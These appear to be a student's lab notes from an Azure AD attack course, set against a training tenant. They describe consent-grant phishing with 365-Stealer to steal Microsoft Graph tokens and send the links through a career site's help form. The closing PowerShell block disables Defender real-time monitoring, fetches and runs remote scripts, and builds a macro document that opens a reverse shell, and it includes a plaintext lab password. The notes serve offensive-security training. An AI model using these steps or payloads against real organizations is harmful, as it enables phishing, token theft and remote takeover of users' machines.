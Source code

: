 ![[Pasted image 20241117060111.png]]

- Register a Multitenant application called `student<#>` in `defcorpextcontractors` tenant
- Provide the Redirect URI where you would like to receive tokens. 
	- In the Lab it will be the student VM `http://172.16.151.x/login/authorized`
- Go to the Certificates and Secrets blade and create a new Client Secret. Ensure to copy the secret before moving on. 
	- Go to API Permissions blade and add the following delegated permissions for MS Graph: user.read User.ReadBasic.All

Note that is you want to use Access Tokens you require to got the Authentication Blade  of the student<#> app, Check the Access Tokens(used for implicit flows) and click save.

- Once we have user privilege access  to the defcorphq tenant. Check if users are allowed to consent to apps.
- Use Azure Portal or the below command from the AzureAD Module
` (Get-AzureADMSAuthorizatioPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole`
- IF the output above  is `ManagePermissionGrantForSelf.microsoft-user-default-legacy` which means users can consent for all apps

# 365 Stealer
- we can use 365 Stealer to abuse consent grant settings: `https://github.com/AlteredSecurity/365-Stealer`
- Note that the attack can be executed using o365 toolkit as well `https://github.com/mdsecactivebreach/o365-attack-toolkit`

- Run `xampp Control Panel`(Run as Admin) and start Apache on student vm.
- Copy the 365-stealer directory from `C:\AzAD\Tools` to `C:\xampp\htdocs` to capture tokens returned by Entra ID
- Using the 365-Stealer Configuration button configure CLIENTID, REDIRECTURL, and CLIENTSECRET
- Click on Run 365-stealer to run the tool
- Browse `https://localhost` using an incognito window  and click on Read More in the web page. This will give your the phising link that should be sent to the target. 

We need to find a way to send those links to the target. We can abuse applications that allow us to contact the user in the target organization. 
- We can find applications running on defcorphq tenant by sub-domain recon
- Use MicroBurst to find applications. We can add Permutations like career, hr, users, file backup to the permutation file used by microburst
```
C:\AzAD\Tools\MicroBurst\Misc\Invoker-EnumerateAzureSubDomains.ps1
Invoke-EnumerationAzureSubDomains -Base defcorphq -Verbose
``` 

- we can also assume that the `https://defcorphqcareer.azurewebsites.net` application is know as a contractor which may have some existing knowledge of the target.

Using the Need Help section of the career application running defcorphq, send the phising link
This explains the variables being used by the phising link. 
![[Pasted image 20241117075801.png]]

- wait for a couple of minutes and browse to `http://localhost:82/365-stealer/yourvictims/` on the attacking machine to get tokens for the victims who clicked the phising link
- Use the access token with Graph API to list other users in the tenant
- Note that only the permissions that we requested earlier are avaliabel with the access token. 
	- we can list all user thanks to User.ReadBasic.All

```
$Token = 'token....'
$URI = 'https://graph.microsoft.com/v1.0/users'

$RequestParams = @{
	Method = 'GET'
	Uri = $URI
	Headers = @{
		'Authorization' = "Bearer $Token"
	}
}
(Invoke-RestMethod @RequestParams).value
```


- We need to target an Application Administrator to grant consent for better permissions
- Ideally we have to target all the users but for the Lab we were able to confirm that `markdwalden@defcorphq.onmicorsoft.com` is assigned application admin

- We need to register a new app (or modify the existing app) and now request permissions that need admin consent - mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send
- Generate a new link using Read More on `http://localhost` and send an email to the user containing that link(Remeber to change the client id if you registered a new app)
- once the user simulation grants consent, we will get the access token of the application admin

Using the access token of the application admin we can use 365-stealer to  upload macro infested doc files to the users onedrive
- the user simulation will open these macro infested word files and execute macros
- a licensed version of Office365 is avaliable on 172.16.1.250 to create doc files
```powershell
$passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredentials ("office-vm\administrator", passwd)
$officeVM = New-PSSession -ComputerName 172.16.1.250 -Credentials $cred

Enter-SSession -Session $officeVM
Set-MpPreference -DisableRealtimeMonitoring $true

IEX(New-Object Net.Webclient).downloadstring("http://172.16.150.<x>:82/Out-Word.ps1")

Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.<x>:82/InvokePowerShellTcp.ps1'); Power -reverse -IPAdress 172.16.150.<x> -Port 4444" -OutputFile student<x>.doc

Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\student<x>.doc -Destination C:\AzAD\Tools\student<x>.doc
```

- next we can start a listener on the student VM
- on the studentVM use 365-stealer web console or CLI to upload the doc to OneDrive of the application admin. 
